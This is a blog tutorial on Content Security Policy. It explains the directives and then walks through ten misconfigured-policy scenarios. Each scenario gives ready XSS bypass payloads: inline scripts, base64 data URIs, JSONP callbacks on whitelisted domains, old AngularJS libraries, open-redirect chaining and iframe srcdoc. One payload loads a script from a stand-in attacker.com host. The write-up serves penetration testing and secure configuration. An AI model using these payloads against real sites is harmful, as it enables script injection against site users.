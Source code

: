 
##
#
https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d
#
##



Hello readers, this writeup is a contribution towards our cyber community from where I have gained every bit of my knowledge. I will try to cover all methods of CSP bypasses which I have learned to date.

What is a CSP ?

CSP stands for Content Security Policy which is a mechanism to define which resources can be fetched out or executed by a web page. In other words, it can be understood as a policy that decides which scripts, images, iframes can be called or executed on a particular page from different locations. Content Security Policy is implemented via response headers or meta elements of the HTML page. From there, it’s browser’s call to follow that policy and actively block violations as they are detected.

Why it is used?

Content Security Policy is widely used to secure web applications against content injection like cross-site scripting attacks. Also by using CSP the server can specify which protocols are allowed to be used. Can we think CSP as mitigation of XSS? The answer is no! CSP is an extra layer of security against content injection attacks. The first line of defense is output encoding and input validation always. A successful CSP implementation not only secures a web page against these vulnerabilities but also gives a wide range of attack details that were unsuccessful i.e. blocked by CSP itself. Web admin can be benefitted using this feature to spot a potential bug.

How does it work?

CSP works by restricting the origins that active and passive content can be loaded from. It can additionally restrict certain aspects of active content such as the execution of inline JavaScript, and the use of eval().

If you are a developer you will require to define all allowed origins for every type of resource your website utilizes. Suppose you are the owner of a website abc.com and these websites loads multiple resources like scripts, images, css from localhost, and different sources as well, say allowed.com. A very basic policy would be :

Implemented via Response Header:

Content-Security-policy: default-src 'self'; script-src 'self' allowed.com; img-src 'self' allowed.com; style-src 'self';
Implemented via meta tag:

<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
Now you may have a question that what are default-src,img-src, style-src and script-src . These are directives of CSP. Using directives only content policy can be properly implemented. Below is the list of some common CSP directives:

script-src : This directive specifies allowed sources for JavaScript. This includes not only URLs loaded directly into <script> elements, but also things like inline script event handlers (onclick) and XSLT stylesheets which can trigger script execution.
default-src: This directive defines the policy for fetching resources by default. When fetch directives are absent in CSP header the browser follows this directive by default.
Child-src: This directive defines allowed resources for web workers and embedded frame contents.
connect-src: This directive restricts URLs to load using interfaces like <a>,fetch,websocket,XMLHttpRequest
frame-src: This directive restricts URLs to which frames can be called out.
frame-ancestors: This directive specifies the sources that can embed the current page. This directive applies to <frame>, <iframe>, <embed>, and <applet> tags. This directive can't be used in <meta> tags and applies only to non-HTML resources.
img-src: It defines allowed sources to load images on the web page.
Manifest-src: This directive defines allowed sources of application manifest files.
media-src: It defines allowed sources from where media objects like <audio>,<video> and <track> can be loaded.
object-src: It defines allowed sources for the <object>,<embed> and <applet> elements.
base-uri: It defines allowed URLs which can be loaded using <base> element.
form-action: This directive lists valid endpoints for submission from <form> tags.
plugin-types: It defineslimits the kinds of mime types a page may invoke.
upgrade-insecure-requests: This directive instructs browsers to rewrite URL schemes, changing HTTP to HTTPS. This directive can be useful for websites with large numbers of old URL's that need to be rewritten.
sandbox: sandbox directive enables a sandbox for the requested resource similar to the <iframe> sandbox attribute. It applies restrictions to a page's actions including preventing popups, preventing the execution of plugins and scripts, and enforcing a same-origin policy.
Sources: Sources are nothing but the defined directives values. Below are some common sources that are used to define the value of the above directives.

   * : This allows any URL except data: blob: filesystem: schemes
self : This source defines that loading of resources on the page is  allowed from the same domain.
data: This source allows loading resources via the data scheme (eg Base64 encoded images)
none: This directive allows nothing to be loaded from any source.
unsafe-eval : This allows the use of eval() and similar methods for creating code from strings. This is not a safe practice to include this source in any directive. For the same reason it is named as unsafe. 
unsafe-hashes: This allows to enable specific inline event handlers.
unsafe-inline: This allows the use of inline resources, such as inline <script> elements, javascript: URLs, inline event handlers, and inline <style> elements. Again this is not recommended for security reasons.
nonce: A whitelist for specific inline scripts using a cryptographic nonce (number used once). The server must generate a unique nonce value each time it transmits a policy.
Let's take an example of a CSP in a webpage https://www.bhaveshthakur.com and see how it works:

Content-Security-Policy: default-src 'self'; script-src https://bhaveshthakur.com; report-uri /Report-parsing-url;
<img src=image.jpg> This image will be allowed as image is loading from same domain i.e. bhaveshthakur.com
<script src=script.js> This script will be allowed as the script is loading from the same domain i.e. bhaveshthakur.com
<script src=https://evil.com/script.js> This script will not-allowed as the script is trying to load from undefined domain i.e. evil.com
"/><script>alert(1337)</script> This will not-allowed on the page. 
But why? Because inline-src is set to self. But Wait! where the hell it is mentioned? I can't see inline-src defined in above CSP at all.
The answer is have you noticed default-src 'self'? So even other directives are not defined but they will be following default-src directive value only. Below is the list of directives which will follow default-src value even though they are not defined in the policy:
child-src connect-src font-src frame-src img-src manifest-src
media-src object-src prefetch-src script-src script-src-elem
script-src-attr style-src style-src-elem style-src-attr worker-src
We have a fair understanding of content security policy directives and its resources. There is one more important thing we need to know. Whenever CSP restricts any invalid source to load data it can report about the incident to website administrators if below directive is defined in the policy:

Content-Security-Policy: default-src 'self'; img-src https://*; child-src 'none'; report-uri /Report-parsing-url;
Administrators can track which kind of attack scripts or techniques are used by attackers to load malicious content from untrusted resources. Now, let's move to the interesting part Bypassing Techniques:

Analyze the CSP policy properly. There are few online tools that are very helpful.

1. https://csp-evaluator.withgoogle.com/
2. https://cspvalidator.org/
Below is the screenshot of how they evaluate and provide you results.


Scenario : 1

Content-Security-Policy: script-src https://facebook.com https://google.com 'unsafe-inline' https://*; child-src 'none'; report-uri /Report-parsing-url;
By observing this policy we can say it's damn vulnerable and will allow inline scripting as well . The reason behind that is the usage of unsafe-inline source as a value of script-src directive.

working payload : "/><script>alert(1337);</script>
Scenario : 2

Content-Security-Policy: script-src https://facebook.com https://google.com 'unsafe-eval' data: http://*; child-src 'none'; report-uri /Report-parsing-url;
Again this is a misconfigured CSP policy due to usage of unsafe-eval.

working payload : 
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
Scenario : 3

Content-Security-Policy: script-src 'self' https://facebook.com https://google.com https: data *; child-src 'none'; report-uri /Report-parsing-url;
Again this is a misconfigured CSP policy due to usage of a wildcard in script-src.

working payloads :
"/>'><script src=https://attacker.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
Scenario: 4

Content-Security-Policy: script-src 'self' report-uri /Report-parsing-url;
Misconfigured CSP policy again! we can see object-src and default-src are missing here.

working payloads :
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>
Scenario: 5

Content-Security-Policy: script-src 'self'; object-src 'none' ; report-uri /Report-parsing-url;
we can see object-src is set to none but yes this CSP can be bypassed too to perform XSS. How ? If the application allows users to upload any type of file to the host. An attacker can upload any malicious script and call within any tag.

working payloads :
"/>'><script src="/user_upload/mypic.png.js"></script>
Scenario : 6

Content-Security-Policy: script-src 'self' https://www.google.com; object-src 'none' ; report-uri /Report-parsing-url;
In such scenarios where script-src is set to self and a particular domain which is whitelisted, it can be bypassed using jsonp. jsonp endpoints allow insecure callback methods which allow an attacker to perform xss.

working payload :
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
Scenario : 7

Content-Security-Policy: script-src 'self' https://cdnjs.cloudflare.com/; object-src 'none' ; report-uri /Report-parsing-url;
In such scenarios where script-src is set to self and a javascript library domain which is whitelisted. It can be bypassed using any vulnerable version of javascript file from that library , which allows the attacker to perform xss.

working payloads :
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
 
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
 <div ng-app ng-csp>
  {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
 </div>
"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>
"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>
Scenario : 8

Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;
If the application is using angular JS and scripts are loaded from a whitelisted domain. It is possible to bypass this CSP policy by calling callback functions and vulnerable class. For more details visit this awesome git repo.

working payloads :
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
"><script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
Scenario : 9

Content-Security-Policy: script-src 'self' accounts.google.com/random/ website.with.redirect.com ; object-src 'none' ; report-uri /Report-parsing-url;
In the above scenario, there are two whitelisted domains from where scripts can be loaded to the webpage. Now if one domain has any open redirect endpoint CSP can be bypassed easily. The reason behind that is an attacker can craft a payload using redirect domain targeting to other whitelisted domains having a jsonp endpoint. And in this scenario XSS will execute because while redirection browser only validated host, not the path parameters.

working payload :
">'><script src="https://website.with.redirect.com/redirect?url=https%3A//accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>">
Scenario : 10

Content-Security-Policy: 
default-src 'self' data: *; connect-src 'self'; script-src  'self' ;
report-uri /_csp; upgrade-insecure-requests
THE above CSP policy can be bypassed using iframes. The condition is that application should allow iframes from the whitelisted domain. Now using a special attribute srcdoc of iframe, XSS can be easily achieved.

working payloads :
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
* sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
I hope you enjoyed reading this. Special thanks to @mikispag & @we1x for their contribution to Google Security research in the domain of Content Security Policy secure implementation.

Thank You!

For any feedback or suggestions reach out to me @Bhavesh_Thakur_


